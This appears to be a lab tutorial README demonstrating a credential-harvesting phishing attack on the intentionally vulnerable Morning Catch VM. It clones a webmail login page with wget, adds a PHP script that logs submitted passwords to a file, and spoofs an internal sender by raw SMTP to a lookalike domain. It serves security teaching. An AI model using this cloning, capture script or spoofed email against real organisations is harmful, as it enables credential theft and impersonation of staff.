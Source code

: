 # Intro to Phishing Demo

This demo will be an example of a credential harvesting attack without using attack tools. 

## Prerequisites

### Attacker VM 

Networking: Host Only or Internal 
Open Ports: 80

Linux with the following packages installed: 
 - php 5.4 or newer 
 - wget 
 - Firefox or Chrome

### Victim

Networking: Host Only or Internal
Open Ports: 25, 80

We will be using the Morning Catch VM created by Raphael Mudge: http://blog.cobaltstrike.com/2014/08/06/introducing-morning-catch-a-phishing-paradise/

It can be downloaded from vulnhub.com at: https://www.vulnhub.com/entry/morning-catch-phishing-industries,101/

### Setup DNS Entries 

#### On the Attacker VM 

Add the attacker and victim IPs to /etc/hosts: 

```
<Attacker IP>	mornincatch.ph
<Victim IP>	morningcatch.ph
```

#### On the Victim VM

Add the attacker IP to /etc/hosts:

```
<Attacker IP>	mornincatch.ph
```

## Recon 

Our target is the Morning Catch company, our first reconnaissance step should be exploring their Internet presence at http://morningcatch.ph: 

![morningcatch.ph](img/morningcatch.png)

On the website we find a list of contacts on the company directory: 
![Employee Directory](img/employee-directory.png)

And a login for what appears to be webmail: 
![Employee Login](img/employee-login.png)

## Setup

We can launch a credential harvesting attack by cloning the site and convincing a user to enter their credentials on our webserver. 

### Cloning morningcatch.ph

Using wget we can clone the site: 

```bash
wget -r -l1 -k -p morningcatch.ph/mail/
sudo mv morningcatch.ph/mail /var/www/html/
sudo vim /var/www/html/mail/index.html
```

In order to capture the credentials entered into our site we need to modify the login form to call a php script that will save the form input to disk.

Old post element:

```html
<form name="form" action="index.html" method="post">
```

New post element:

```html
<form name="form" action="form.php" method="post">
```

Now we just need to write the form.php script:

```php
<?php

$user = $_POST['_user'];
$pass = $_POST['_pass'];

$f = fopen("creds.txt", "a");

fwrite($f, "$user:$pass\n");

fclose();
header("Location: http://morningcatch.ph/mail/");
die();
?>
```

```bash
touch /var/www/html/mail/creds.txt
sudo chown www-data:www-data /var/www/ -R 
```

And verify that the site works correctly by logging in and checking creds.txt:

![Successful Login](img/successful-test.png)

## Send Messages to Target 

### Email Server - Pretending to be Boyd
Now that we have setup the site we can craft the email for the target:


```bash
telnet morningcatch.ph 25
ehlo morningcatch.ph
mail from: bjenius@morningcatch.ph
rcpt to: rbourne@morningcatch.ph
data
Subject: 

We are currently testing a new performance configuration for the webmail site, please test the site changes by visiting: http://mornincatch.ph/mail/

Boyd

.
quit
```

### Richard Checks his Mail

When Richard Bourne goes to check his email, he receives the following message: 

![Richard's Email](img/bourne-email.png)

Being the savy CEO he is, Richard clicks the link:

![Richard's Email](img/bourne-webmail.png)

## Responses 

The responses can be recorded using our cred.txt file: 

```
hans	i<3cats
rbourne	password
```
